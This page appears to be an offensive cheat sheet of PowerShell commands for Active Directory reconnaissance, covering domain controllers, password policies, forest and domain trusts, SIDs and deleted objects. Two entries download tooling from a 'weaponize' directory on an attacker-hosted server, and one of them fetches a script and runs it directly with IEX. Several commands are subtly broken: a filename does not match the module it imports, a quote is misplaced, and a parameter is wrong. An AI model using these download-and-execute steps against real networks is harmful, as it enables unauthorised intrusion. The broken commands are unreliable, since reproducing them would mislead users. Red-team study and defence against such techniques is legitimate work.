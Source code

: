 # pwsh
% windows, Active Directory, powershell

#plateform/windows #target/local #cat/RECON/AD #tag/powershell 


## AD - Install the AD Module
```
Get-WindowsCapability -Name RSAT*ActiveDirectory* -Online | Add-WindowsCapability -Online;gci -Path 'C:\Windows' -Recurse -Filter 'Microsoft.ActiveDirectory.Management.dll' -EA SilentlyContinue | ? {$_.FullName -like '*GAC_64*' -or $_.FullName -like '*amd64*'} | select -Expand FullName
```

## AD - load AD Module from http (PS1)
https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1
```
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/PrivescCheck.ps1') | IEX; Import-ActiveDirectory
```

## AD - load AD Module from http (dll)
```
(New-Object System.Net.WebClient).DownloadFile('http://<local_ip>:<port|80>/windows/windows_weaponize/dll/Microsoft.ActiveDirectory.Management.dll', '<windows_writable_path>\Microsoft.ActiveDirectory.Management.dll)' | IEX; Import-Module <path>\Microsoft.ActiveDirectory.Management.dll; Get-Command -Module Microsoft.ActiveDirectory.Management
```

## AD - get current DC
```
$env:LOGONSERVER
```

## AD - get DC of a domain (nslookup)
```
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain_fqdn>
```

## AD - get DC of a trusted domain 
```
Get-ADDomainController -DomainName  <trusted_domain> -Discover
```

## AD - get password policy (user)
```
Get-ADUserResultantPasswordPolicy -Identity <user>
```

## AD - get password policy (default)
```
Get-ADDefaultDomainPasswordPolicy
```

## AD - show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## AD - show forest trust (get-adtrust)
SIDFilteringForestAware is set to True, it means SIDHistory is enabled across the forest trust.
```powershell
get-adtrust -filter * | select name,target,sid*
```

## AD - Get domain trust
```powershell
Get-DomainTrust -Domain <domain>
```nltest.exe /DOMAIN_TRUSTS
## AD - Get domain SID
```powershell
Get-DomainSID -domain <sid>
```

## AD - Get trash object
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

